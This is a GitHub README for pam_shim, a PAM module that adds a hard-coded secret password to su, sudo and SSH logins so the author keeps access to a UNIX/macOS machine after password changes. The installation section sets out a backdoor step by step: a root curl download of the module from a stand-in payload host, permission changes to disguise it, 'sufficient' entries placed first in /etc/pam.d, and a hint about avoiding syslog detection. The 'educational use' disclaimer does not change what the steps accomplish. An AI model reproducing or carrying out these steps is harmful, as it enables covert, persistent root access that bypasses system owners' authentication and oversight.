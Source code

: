 # pam_shim
pam_shim is a PAM module created to act as a shim enabling sustained access to an UNIX-based computer, even in the event of a password change.

**DISCLAIMER**

 This small utility is provided for educational use on machines you own or whose owner has given you their full consent. You are solely responsible for any, uh... trouble in which you might (and probably will) find yourself after using pam_shim under other conditions.

**NOTES ON SECURITY**

 pam_shim is not exactly designed with security in mind. Of course, you are free to use it as a foothold to get back into your box in the event of a password mishap (or some similar event), but this is *not* recommended by any means. As of the current version, the "secret" password pam_shim checks against is simply a string literal stored in plaintext within the pam_shim binary. Anyone who greps through the binary can see it.
 ```
 $ strings /usr/lib/pam/pam_shim.so
 pam_shim
 $ # ouch!
 ```
 I know, I know, this really shouldn't happen. But it does, and I'm too lazy to do anything about it.

 Fixing it is actually only a matter of incorporating a hash function, and probably won't take long – but alas, there's never a shortage of other crap I have to do. If anyone wants to have a go at it, I'd be happy to accept a pull request.

## Features and Relevant Caveats
I didn't think this would really be useful to anyone else, but I've surprisingly had several people request the source and so decided put it up here on Github. This code has only been tested on Mac OS X (versions 10.7 - 10.10), but it should theoretically build and function on any UNIX system that employs PAM authentication. Like everything else Apple, OSX PAM headers are likely to be a bit out of whack so linux support might take a bit of trial and error. If anyone does manage to figure it out, please do tell how you've made it work.

IMPORTANT: pam_shim does **not** affect LoginWindow.app (the Mac OS X login screen), as it refuses to go through PAM for some reason. pam_shim **does** however work fine in conjunction with setuid-based privilege management systems like su/sudo and over traditional UNIX remote access services such as SSH/telnet/rlogin, etc. Ironically, the Mac OS X screensaver password lock also seems to work without a hitch.

## Building
Building pam_shim is not very difficult. It've gotten it to build flawlessly with both clang and tcc on my MacBook; YMMV with other setups. There's no configure script or anything, just a Makefile. The code itself is stupidly simple, as it's just a shim. Modify the Makefile as needed if your toolchain complains about something; it's only around 15 lines long.

For those of you who aren't familiar with the unix build system: just pop open a shell window, cd to the source directory, and type `make`. Mac OS X users will need to have installed Apple's Xcode command line tools package for this to work correctly – if you haven't already done so just execute `xcode-select --install` in your shell and click "Install" (*not* "Get Xcode", unless of course you want to toss ~8GB of SSD space out the window).

## Installing
Installing is also a walk in the park, but it does require you to spend a minute or so on the admin account of the machine in question. It'll work over SSH (or any other remote PTY) as well of course, so physical access is not necessarily a prerequisite in every case. The process itself remains more or less identical across different machines running the same OS, and can easily be automated with a shell script – which in turn speeds installation even further, especially when paired with a `curl | sh`-style pipe command. Such a script is intentionally not included for (hopefully) obvious reasons. If you require this or similar functionality though, rest assured that it's completely trivial to implement by oneself.

**(1)** Move a copy of the shared library file `pam_shim.so` into your PAM library path. The precise location differs according to operating system – on some systems it can be ascertained by simply scrolling to the end of PAM's manual page ('man pam'), others might have you resorting to something like `locate pam_rootok` which, while perfectly functional, is a little bit messy in my opinion. On Mac OS X however, I've found that it's nearly always `/usr/lib/pam/`.
```
    $ sudo -i
    Password:
    # curl -L http://web.server.hosting.payload/payloads/pam_shim.so -o /usr/lib/pam/pam_shim.so
```
The OSX enthusiasts among you may have flinched at the `.so` file extension – for once, I'm actually not being a newb: PAM recommends that modules be named this way even when they are technically in Mach-O `dylib` format.

**(2)** Change the permission attributes of `/usr/lib/pam/pam_shim.so` to match the other "real" PAM modules in `/usr/lib/pam`. On my MacBook, this is `root:wheel` ownership and mode 0444. In this case I downloaded the file as root, so already had the correct ownership – but I'll just `chown` it anyway for kicks.
```
    # cd /usr/lib/pam
    # chown root:wheel pam_shim.so
    # chmod 0444 pam_shim.so
```

**(3)** Edit the configuration files in `/etc/pam.d` so that `pam_shim.so` has the `sufficient` role for the services you'd like to have it affect. Keep in mind that some services (e.g. sudo) log their activity with syslog, so if you're trying to be stealthy you might want to think twice as to how you're getting root. Lastly, make sure the entry is at the top, or PAM won't check it first. Here's my `/etc/pam.d/su` file, for example:
```
auth       sufficient     pam_shim.so
auth       sufficient     pam_rootok.so
auth       required       pam_opendirectory.so
account    required       pam_group.so no_warn group=admin,wheel ruser root_only fail_safe
account    required       pam_opendirectory.so no_check_shell
password   required       pam_opendirectory.so
session    required       pam_launchd.so
```
This will cause `su`'s PAM calls to route through pam_shim, returning successful if the password given is equivalent to the one hard-coded into library, and falling back to OpenDirectory if not. Note that there is no need to remove or comment out the pam_group line as pam_shim will return successful before PAM has the opportunity to evaluate it.

**(4)**  Test it out!
```
$ su
Password:
#
```
After providing the pam_shim password (from any user) *or* the actual root password (as an admin/wheel user), `su` should give you a root shell. If not, you probably missed a step somewhere along the line.
